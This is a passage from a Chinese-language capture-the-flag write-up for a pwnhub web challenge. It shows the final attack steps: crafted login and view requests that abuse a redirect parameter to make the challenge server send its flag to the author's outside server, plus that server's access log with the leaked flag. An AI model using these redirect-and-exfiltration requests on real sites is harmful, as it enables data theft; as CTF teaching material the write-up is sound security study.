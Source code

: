 ## 完成攻击 ##

所有条件都成立了，那么就是打一波payload了。

首先，本地提交一份表单，获得表单的序号，`MTU0NTQ5-->154549`。

发送写入article的请求

```
	http://54.223.108.205:23333/login.php?redirecturl=http%3A%2f%2f115.28.78.16%2f1.php
```

然后拼接payload，打cookie

```
	http://54.223.108.205:23333/view.php?id=MTU0ODQ2&p=flag.phphttp%3A%2f%2f115.28.78.16%2f
```

然后查看服务器的log

```

	54.223.108.205 - - [10/Dec/2016:10:34:18 +0800] "GET /%0D%0Aflag%20is%20here!%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0D%0A%E6%81%AD%E5%96%9C%E6%89%BE%E5%88%B0flag%EF%BC%8C%E4%B8%8D%E8%BF%87%E4%BD%9C%E4%B8%BA%E5%87%BA%E9%A2%98%E4%BA%BA%E5%BF%83%E9%87%8C%E6%98%AF%E5%B4%A9%E6%BA%83%E7%9A%84%EF%BC%8C%E6%88%91%E6%83%B3%E8%AF%B4~~~~!%40%23%24%25%5E%26*()_%2B%7B%7D%7C%3A%22%3C%3E%3F~%60-%3D%5B%5D%5C%3B'.%2F%5C%0D%0A%0D%0Apwnhub%7Bflag%3A%E5%A5%B3%E5%AD%A9%E7%9A%84%E5%BF%83%E6%80%9D%E4%BD%A0%E5%88%AB%E7%8C%9C%7D%0D%0A HTTP/1.1" 404 162 "http://54.223.108.205:23333/view.php?id=MTU0ODQ2&p=flag.phphttp%3A%2f%2f115.28.78.16%2f" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0" -

```

最后还剩下两个坑，一个是火日师傅加了一大堆符号，这里如果没有做urlencode再传出就会被阶段，然后flag是中文的，很稳健Orz

```
	flag is here! 恭喜找到flag，不过作为出题人心里是崩溃的，我想说~~~~!@#$%^&*()_+{}|:"<>?~`-=[]\;'./\ pwnhub{flag:女孩的心思你别猜} 
```